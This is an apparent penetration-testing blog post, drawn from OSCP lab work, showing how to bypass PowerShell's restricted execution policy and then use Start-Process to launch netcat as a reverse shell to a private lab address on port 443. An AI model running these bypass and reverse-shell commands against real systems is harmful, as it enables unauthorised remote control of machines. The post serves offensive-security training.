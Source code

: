 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Beating Restricted Policies"
author: nanobyte
date:   2020-05-23
description: PowerShell for Penetration Testing, and how to beat restricted policies to run commands and scripts
tags: PowerShell
---
```


Recently, while I was going for my Offensive Security Certified Professional (OSCP) certificate, I ran into a machine in the labs which had a restricted PowerShell. Simply stated, I could not enter into an interactive PowerShell session or run any PowerShell scripts. PowerShell has several execution policies which can be set on a system, and these execution policies determines which scripts can be run. By default, this is set to "Restricted". From Microsoft, restricted "doesn't load configuration files or run scripts. The default execution policy Windows client computers."

However, there is an execution policy which, as penetration testers, we want to have set. That execution policy is "Bypass", which states "nothing is blocked and there are no warnings or prompts." Luckily, we are able run a command or script with PowerShell's bypass execution policy set with an option. Now, even though the default restricted policy is set, our commands will still run. To run a PowerShell command with bypass:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -Command "whoami"
{% endhighlight %}

Or, for shorthand:

{% highlight bash linenos %}
powershell -exec bypass -c "whoami"
{% endhighlight %}

Now, even though the system is restricted, PowerShell can still be leveraged! Let's build on this and take it another step further. When you enter a PowerShell session or run a script, you run it in the context of the current profile. As penetration testers, we may not know what is within these profiles. For best practices, we can supply the No Profile flag which will run our script without using any profile:

{% highlight bash linenos %}
powershell -ExecutionPolicy Bypass -NoProfile -Command "whoami"
{% endhighlight %}

Or, another shorthand:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "whoami"
{% endhighlight %}

Now, we can run commands from a restricted PowerShell enviornment without any profile loading. We are almost at the end goal, to execute a command on the system. If we wished to spawn a process, PowerShell has the Start-Process cmdlet. A cmdlet is a lightweight command that can be used within a PowerShell enviornment. There is most likely a cmdlet for anything you wish to accomplish in PowerShell. In my case, I wanted to start netcat for a reverse shell.

Start-Process is a powerful cmdlet, and to better understand it visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7" target="_blank">docs.microsoft</a> to read about the full cmdlet. For our case, we need to first define the program we want to spawn, followed by the arguments. Simply calling Start-Process nc -e cmd.exe <IP> <PORT> would fail here. To properly spawn this new process:
  
{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$prog='C:\temp\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process $prog $args }"
{% endhighlight %}

Now, our command will call PowerShell with a bypass in the execution policy, to run the command without any profile set, and run our Start-Process command, properly passing the $prog and $args variables to start our process. Now, you might be asking, where did the ampersand come from? In PowerShell, the ampersand is a reserved character for a run call operator. This call operator is needed to force PowerShell to not treat our command as a string, and execute it. For more information, please visit <a href="https://ss64.com/ps/call.html" target="_blank">ss64.com</a>.

And that is it, our command will now spawn a new process, bypassing the restricted PowerShell execution policy to run our command!
